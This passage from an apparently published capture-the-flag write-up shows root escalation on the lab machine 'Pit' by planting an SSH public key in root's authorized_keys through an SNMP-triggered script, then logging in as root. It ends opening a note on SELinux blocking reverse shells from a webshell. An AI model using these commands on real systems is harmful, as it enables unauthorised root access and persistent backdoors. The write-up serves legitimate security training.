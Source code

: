     
    
    [michelle@pit monitoring]$ echo 'echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" | tee /root/.ssh/authorized_keys && echo "it worked!"' > check_0xdf.sh
    

I use `tee` and the additional `echo` so that the output will be visible in
the SNMP output to see if it worked.

On triggering that, the output looks good:

    
    
    oxdf@parrot$ snmpwalk -v1 -c public 10.10.10.241 NET-SNMP-EXTEND-MIB::nsExtendObjects
    NET-SNMP-EXTEND-MIB::nsExtendNumEntries.0 = INTEGER: 1
    NET-SNMP-EXTEND-MIB::nsExtendCommand."monitoring" = STRING: /usr/bin/monitor   
    NET-SNMP-EXTEND-MIB::nsExtendArgs."monitoring" = STRING:           
    NET-SNMP-EXTEND-MIB::nsExtendInput."monitoring" = STRING:      
    NET-SNMP-EXTEND-MIB::nsExtendCacheTime."monitoring" = INTEGER: 5
    NET-SNMP-EXTEND-MIB::nsExtendExecType."monitoring" = INTEGER: exec(1)
    NET-SNMP-EXTEND-MIB::nsExtendRunType."monitoring" = INTEGER: run-on-read(1)
    NET-SNMP-EXTEND-MIB::nsExtendStorage."monitoring" = INTEGER: permanent(4)
    NET-SNMP-EXTEND-MIB::nsExtendStatus."monitoring" = INTEGER: active(1)
    NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."monitoring" = STRING: ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing
    NET-SNMP-EXTEND-MIB::nsExtendOutputFull."monitoring" = STRING: ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing
    it worked!
    Memory usage
                  total        used        free      shared  buff/cache   available
    Mem:          3.8Gi       449Mi       3.0Gi       8.0Mi       394Mi       3.2Gi 
    ...[snip]...
    

SSH will work to connect with the matching private key as root:

    
    
    oxdf@parrot$ ssh -i ~/keys/ed25519_gen root@10.10.10.241
    Web console: https://pit.htb:9090/ or https://10.10.10.241:9090/
    
    Last login: Mon May 10 11:42:46 2021
    [root@pit ~]# 
    

And grab that flag:

    
    
    [root@pit ~]# cat root.txt
    a96b3445************************
    

## Beyond Root - SeLinux

### Background

I noted during solving that SeLinux was on the box, and blocking things I was
trying to do. SeLinux puts a ton more granular permissions around not just
file access but other kinds of access like sockets. It blocked reverse shells
from the webshell. It also prevented me from using the SNMP scripts to access
`root.txt`. For example, creating this script:
